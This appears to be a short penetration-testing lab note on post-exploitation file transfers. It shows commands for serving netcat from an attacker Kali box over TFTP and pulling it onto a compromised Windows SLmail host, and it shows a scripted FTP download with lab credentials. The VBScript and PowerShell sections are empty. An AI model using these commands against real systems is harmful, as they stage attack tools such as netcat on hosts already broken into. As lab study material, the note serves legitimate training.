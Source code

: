 #File Transfers (Post Exploitation)

## TFTP
Often restricted in corperate networks, contained in windows up to xp/2003 by default has since has been opt in
+ Quick to setup, non-interactive

Linux Box (attacker)
```
root@kali:# mkdir /tftp
root@kali:# atftpd --daemon --port 69 /tftp
root@kali:# cp /usr/share/windows-binaries/nc.exe /tftp/
```

Windows Box (defender)
```
C:\Program Files\SLmail\System>tftp -i 10.11.0.138 GET nc.exe
   tftp -i 10.11.0.138 GET nc.exe
   Transfer successful: 59392 bytes in 18 second(s), 3299 bytes/s
```

## FTP
Often included in windows, has interactive elements so might need to prewrite a script

Linux Box (attacker) - install pure-ftpd, then run `setup-ftp.sh`
```
root@kali:~/Desktop/lessons/slmail# apt-get install pure-ftpd
root@kali:~/Desktop/lessons/filetransfers# ./setup-ftp.sh 
```

Windows Box (defender) - Paste `ftp.txt` into the shell
```
C:\Program Files\SLmail\System>echo offsec>> ftp.txt
C:\Program Files\SLmail\System>echo lab>> ftp.txt
C:\Program Files\SLmail\System>echo bin>> ftp.txt
C:\Program Files\SLmail\System>echo GET test.txt>> ftp.txt
C:\Program Files\SLmail\System>echo bye>> ftp.txt
C:\Program Files\SLmail\System>ftp -s:ftp.txt
```

## VBScript

## Powershell
